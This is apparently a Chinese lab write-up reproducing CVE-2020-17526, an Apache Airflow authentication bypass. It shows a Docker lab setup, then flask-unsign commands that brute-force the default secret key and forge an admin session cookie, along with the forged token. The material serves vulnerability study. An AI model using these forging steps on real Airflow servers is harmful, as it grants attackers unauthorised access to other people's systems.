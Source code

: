 # Apache Airflow 默认密钥导致的权限绕过 CVE-2020-17526

## 漏洞描述

Apache Airflow是一款开源的，分布式任务调度框架。默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定`webserver.authenticate=True`来开启认证。

在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。

参考链接：

- https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0
- https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise

## 环境搭建

Vulhub执行如下命令启动一个Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

首先，我们访问登录页面，服务器会返回一个签名后的Cookie：

```
curl -v http://localhost:8080/admin/airflow/login
```

![image-20220329105609442](./images/202204251948002.png)

然后，使用[flask-unsign](https://github.com/Paradoxis/Flask-Unsign)这个工具来爆破签名时使用的`SECRET_KEY`：

```
# 安装flask-unsign
pip install flask-unsign[wordlist]

# 开始爆破
flask-unsign -u -c [session from Cookie]
```

![image-20220329105921359](./images/202204251948003.png)

Bingo，成功爆破出Key是`temporary_key`。使用这个key生成一个新的session，其中伪造`user_id`为1：

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![image-20220329110052524](./images/202204251948004.png)

新生成的session为：

```
eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.YkJ2WQ.sUbyyQy70a2A6FPd6fO6UVAyQ-U
```

在浏览器中使用这个新生成的session，可见已成功登录：

![image-20220329110946880](./images/202204251948005.png)

可以使用Chrome插件[EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related?hl=zh)对Cookie进行修改。

